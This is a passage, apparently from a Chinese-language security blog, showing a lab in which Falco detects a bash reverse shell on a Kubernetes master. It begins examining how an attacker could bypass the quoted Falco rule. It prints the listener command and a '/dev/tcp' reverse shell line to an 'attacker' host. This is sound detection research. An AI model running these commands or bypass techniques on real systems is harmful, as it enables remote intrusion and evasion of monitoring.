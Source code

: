 现在来试一下！

为了方便调试，本节我们采用直接在master上安装运行Falco的方式。我们将开启三个终端窗口：

![](https://wohin.me/content/images/2019/12/5A5A74EA-71D3-4CD9-8EF2-641665D3088F.png)

其中，右下方是falco终端，用来在master上运行falco；上方的是victim终端，用来模拟攻击者建立反弹shell的操作；左下方是attacker终端，用来监听反弹shell请求。

首先，我们在attacker终端中开启监听：

```
ncat -l -p 10000
```

在falco终端启动检测：

```
falco
```

接着，在victim终端创建常用的反弹shell：

```
bash -i >& /dev/tcp/attacker/10000 0>&1
```

攻击者在attacker终端成功获得了反弹shell，然而，falco终端给出了两条告警：

![](https://wohin.me/content/images/2019/12/1CF45D22-5BAD-442D-9EA8-CDFAD47E5CCB.png)

告警分别为：

-   检测到系统程序接收/发送了网络流量
-   检测到容器内开启了一个shell

### 4.2 第一次绕过

**好了，看来借助Falco来检测反弹shell至少是可行的。那么，攻击者是否能够绕过上面的检测呢？**

我们来分析一下情况。

第一个告警在第一节中没有出现过，但的确也是基于 `/etc/falco/falco_rules.yaml` 中的规则生成的：

```
- rule: System procs network activity
  desc: any network activity performed by system binaries that are not expected to send or receive any network traffic
  condition: >
    (fd.sockfamily = ip and (system_procs or proc.name in (shell_binaries)))
    and (inbound_outbound)
    and not proc.name in (systemd, hostid, id)
    and not login_doing_dns_lookup
  output: >
    Known system binary sent/received network traffic
    (user=%user.name command=%proc.cmdline connection=%fd.name container_id=%container.id image=%container.image.repository)
  priority: NOTICE
  tags: [network, mitre_exfiltration]
```
